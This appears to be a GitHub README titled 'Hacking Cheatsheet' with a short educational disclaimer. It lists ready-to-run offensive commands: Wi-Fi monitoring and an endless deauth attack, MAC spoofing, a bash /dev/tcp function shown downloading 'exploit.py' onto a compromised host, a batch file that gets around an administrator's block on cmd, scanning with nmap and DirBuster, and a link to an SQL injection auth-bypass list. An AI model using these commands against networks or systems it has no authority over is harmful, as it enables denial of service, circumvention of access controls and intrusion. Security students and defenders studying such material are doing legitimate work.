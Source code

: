 # Hacking Cheatsheet

> #### Disclaimer
> 
> For Academic and Educational Purposes Only

I am actively developing a comprehensive cheat sheet, regularly adding content that encompasses intricate information, helpful techniques, and fundamental utilities, along with their practical usage, all conveniently consolidated in a single resource

## Table of Contents

- [Networking stuff](#networking-stuff)
  - [Scanning the network for IPs](#scanning-the-network-for-ips)
  - [Show my wireless card name](#show-my-wireless-card-name)
  - [Put wireless card on monitor mode](#put-wireless-card-on-monitor-mode)
  - [Show routers in range](#show-routers-in-range)
  - [Show devices connected to a specific router](#show-devices-connected-to-a-specific-router)
  - [Create deauth attack](#create-deauth-attack)
  - [Change MAC address](#change-mac-address)
  - [Network list with information](#network-list-with-information)
  - [Host DarkWeb, Secret chat](#host-darkweb-secret-chat)
- [System compromising](#system-compromising)
  - [curl or wget without the function itself](#curl-or-wget-without-the-function-itself)
  - [Get cmd in Windows if not enabled by administrator](#get-cmd-in-windows-if-not-enabled-by-administrator)
- [Web Penetration Testing](#web-penetration-testing)
  - [Basic Steps to Rule the World](#basic-steps-to-rule-the-world)
  - [Scanning the machine](#scanning-the-machine)
  - [Using DirBuster](#using-dirbuster)
  - [Validating a form and a button if it is disabled](#validating-a-form-and-a-button-if-it-is-disabled)
  - [List of vulnerable Unix libraries, to for example get root access](#list-of-vulnerable-unix-libraries-to-for-example-get-root-access)
  - [SQL injection auth bypass](#sql-injection-auth-bypass)


## Networking stuff

### Scanning the network for IPs

```
nmap -v -sP {i.p.add.ress/mask}
```

### Show my wireless card name
```
iwconfig
```

### Put wireless card on monitor mode
```
airmon-ng start {card name}
```

### Show routers in range
```
airodump-ng {card name}
```
- PWR column is showing signal strenght
- Note also the channel and BSSID of the router

### Change interface channel
```
sudo iwconfig {interface} channel {channel}
```

### Show devices connected to a specific router
```
airodump-ng {card name} --bssid {router BSSID} --channel {router channel}
```
- router is also included there

### Create deauth attack
```
aireplay-ng --deauth 0 -c {devices MAC} -a {routers MAC ADDRESS} {card name}
```
- possibility to include more routers and more MAC adresses
- 0 means infinite number of deauth messages
- TIP of the day: put for example 50 insted of 0 and replay it with 1 second delay

> **Script**
>
> For automation, use a script avaiable [here](./files/scripts/deauth_attack.sh).

### Change MAC address
```
sudo ifconfig {interface} down
sudo ifconfig {interface} hw ether {MAC address}
sudo ifconfig {interface} up
```

### Network list with information 
```
nmcli device wifi list
```
- Show info about avaiable Wi-Fi networks and its security type

### Host DarkWeb, Secret chat
- use onionshare

## System compromising

### curl or wget without the function itself
```bash
function __curl() {
  read proto server path <<<$(echo ${1//// })
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [[ x"${HOST}" == x"${PORT}" ]] && PORT=80
 
  exec 3<>/dev/tcp/${HOST}/$PORT
  echo -en "GET ${DOC} HTTP/1.0\r\nHost: ${HOST}\r\n\r\n" >&3
  (while read line; do
   [[ "$line" == $'\r' ]] && break
  done && cat) <&3
  exec 3>&-
}
 
 
# USAGE: __curl http://www.example.com/exploit.py > sploitz.py
```
### Get cmd in Windows if not enabled by administrator
- Create a file `something.bat` with following content
```
@echo off
:a
Set /p comm=cmd~
%comm%
Goto a
```

## Web Penetration Testing

### Basic Steps to Rule the World

1. Get basic information about the targer, use it as it is
2. Scan the machine, how many ports are open?
3. Find all directiories - DirBuster
4. To be done

### Scanning the machine

```
nmap -sV -O {IP ADDRESS}
```

- This provides information about services version, OS and which ports are in use, all in once


### Using DirBuster

- Used for detecting all folders, even the hidden ones

```
dirbuster dir -u {IP ADDRESS} -l {WORDLIST PATH}
```


### Validating a form and a button if it is disabled

- Console will fix this problem

```
var inputField = document.querySelector('input[type="..."][name="..."]');
if (inputField) {
  inputField.removeAttribute("disabled");
}
```

- Run this for both, button and input field and it will be enabled


### List of vulnerable Unix libraries, to for example get root access

- https://gtfobins.github.io/

### SQL injection auth bypass 

 Check this [list](./files/web_pentesting/sqli_auth_bypass_list.txt).
